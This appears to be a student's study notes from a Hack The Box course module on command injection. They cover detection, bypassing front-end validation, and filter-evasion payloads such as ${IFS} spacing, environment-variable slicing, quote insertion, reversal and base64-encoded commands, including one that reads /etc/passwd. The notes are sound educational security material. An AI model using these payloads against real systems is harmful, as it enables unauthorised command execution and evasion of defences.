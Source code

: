 # Command Injection Overview
-----
Command Injections stand out as one of the most critical vulnerabilities in the realm of cybersecurity. This type of vulnerability provides a gateway for executing system commands directly on the hosting server's back-end, potentially compromising the entire network. When a web application employs user-controlled input to execute system commands, there exists an opportunity to inject a malicious payload, diverting the intended command and executing unauthorized actions.

#### Command Injection Detection
- Whenever there's an input field, we can potentially have a command injection vulnerability.

- We can try variou commands with different operators (`;`, `\n`,`&&`, `|`, etc.)

#### Injecting Commands
- Assume we have an application that ping an IP address, we can add another command after the IP

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_basic_injection.jpg)

- As we can see the application refuses our inout. However, it looks like the input validation is done on the front-end (i.e in the 2 commands execute successfully). 

#### Bypass Front-End Validation
- To bypass front-end validations, we can use BurpSuite to intecept the request. If there's only front-end validation, the Reponse will print the output of the commands

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_basic_repeater_2.jpg)

## Filters Evasion
-----

### Identify filters
- Filter/WAF Detection: when trying different operators (&, &&, |, ;), if we get errors from the web page, it means there's a filter in place to protect the application. If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF.
- When it comes to filtering, the application can blacklist operators or blacklist the whole command, or both. Hence, we need to attempt each scenario to figure out the vulnerability.

#### Blacklisted Characters
- If a commands contains a blocked special character, the application might deny the request.

- To find out which character is allowed in the application, use BurpSuite to try each of the operators, which can be found [here](operators.txt) or their [url encoded verion](url-encoded-operators.txt).

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_2.jpg)

#### Bypassing Space Filters
- If the application does not allow space character, we can try bypassing it by using tab instead.

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_spaces_3.jpg)

- As we see from the above image that the application accepts the request, meaning we succeed in bypassing space filter by using a tab.

- `${IFS}` is Linux Environment Varible whose default value is a space and a tab. Hence, the payload should look like `127.0.0.1%0a${IFS}`.

- Brace Expansion is another method we can use to bypass space filter, which automatically adds spaces between arguments wrapped between braces `{ls,-la}`. Hence, the payload will look like `127.0.0.1%0a{ls,-la}`.

#### Bypassing Other Blacklisted Characters
- Concept: we will obtain the special character from environment varible values (or $PATH).

- In Linux:
```bash
echo ${PATH} will output `/usr/local/bin:/usr/bin:/bin:/usr/games`. To get the "/" character, we run `echo ${PATH:0:1}`

- Similarly, to get ";" character, we use `${LS_COLORS:10:1}`

- So the final payload looks like: `127.0.0.1${LS_COLORS:10:1}${IFS}whoami`
```

- In Windows:

```shell
# Command Prompt
%HOMEPATH:~6,-11%	# output \


# PowerShell
$env:HOMEPATh[0]	# output \
```

#### Bypassing blacklisted commands
- In case an application blacklists certain commands, we need to find ways to work around.

- A few techniques we can use is using the commands with ' or ", which can be used on both Linux and Windows

```bash
127.0.0.1%0aw'h'o'a'm'i)
```

- In Linux, there are a few characters that can be inserted into the middle of the command

```bash
who$@ami
w\h\o\a\m\i
```

- Similarly, in Windows, we can use `^` character.

```bash
who^ami
```

#### Advanced Command Obfuscation
- In Windows, we can switching the cases of the commands (WhoAmI), which Windows will ignore and execute it.

- In Linux, since it is case-sensitive, we need to convert the command to lowercases before executing

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhoAmI")

Note: The above command uses space. If the application filters spaces, we need to replace it with tabs (%09)
```

- Reverse commands

```bash
# LINUX
echo "whoami" | rev
$(rev<<<"imaohw")

# WINDOWS
"whoami"[-1..-20] -join ''
iex "$('imaohw'[-1..-20] -join '')"
```

- Encoding commands: this is extremely helpful when it comes to using commands with filtered characters.

```bash
echo -n "cat /etc/passwd | grep 33" | base64	# Output: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

# On the application
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

- For Windows, we can do similar technique

```PowerShell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```


